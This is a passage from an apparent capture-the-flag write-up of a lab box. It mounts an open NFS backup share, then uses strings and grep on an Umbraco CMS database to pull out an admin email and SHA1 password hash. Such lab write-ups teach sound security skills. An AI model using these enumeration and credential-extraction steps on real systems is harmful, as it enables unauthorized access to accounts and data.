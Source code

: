 ```bash
root@darkness:~# showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

Seems like there is a `/site_backups` export available. Let us mount it!

```bash
root@darkness:~# mkdir /mnt/remote; mount -t nfs 10.10.10.180:/site_backups /mnt/remote; cd /mnt/remote
root@darkness:/mnt/remote# ls -alh
total 123K
drwx------ 2 nobody 4294967294 4.0K Feb 23  2020 .
drwxr-xr-x 4 root   root       4.0K Aug 26 16:08 ..
drwx------ 2 nobody 4294967294   64 Feb 20  2020 App_Browsers
drwx------ 2 nobody 4294967294 4.0K Feb 20  2020 App_Data
drwx------ 2 nobody 4294967294 4.0K Feb 20  2020 App_Plugins
drwx------ 2 nobody 4294967294   64 Feb 20  2020 aspnet_client
drwx------ 2 nobody 4294967294  48K Feb 20  2020 bin
drwx------ 2 nobody 4294967294 8.0K Feb 20  2020 Config
drwx------ 2 nobody 4294967294   64 Feb 20  2020 css
-rwx------ 1 nobody 4294967294  152 Nov  1  2018 default.aspx
-rwx------ 1 nobody 4294967294   89 Nov  1  2018 Global.asax
drwx------ 2 nobody 4294967294 4.0K Feb 20  2020 Media
drwx------ 2 nobody 4294967294   64 Feb 20  2020 scripts
drwx------ 2 nobody 4294967294 8.0K Feb 20  2020 Umbraco
drwx------ 2 nobody 4294967294 4.0K Feb 20  2020 Umbraco_Client
drwx------ 2 nobody 4294967294 4.0K Feb 20  2020 Views
-rwx------ 1 nobody 4294967294  28K Feb 20  2020 Web.config
```

Let us try and find the configuration files for the CMS.

#### Finding the CMS password

Looking around in the directory I noticed `Umbraco.sdf`, which is the database of the CMS. Let us run strings and grep for `admin` to see if we get any interesting data.

```bash
root@darkness:/mnt/remote/App_Data# strings Umbraco.sdf | grep admin
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c
47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}
[...]
```

We can manually extract the relevant information out of the output.

```bash
root@darkness:~# cat admin.sha1 
admin@htb.local:b8be16afba8c314ad33d812f22a04991b90e2aaa
```
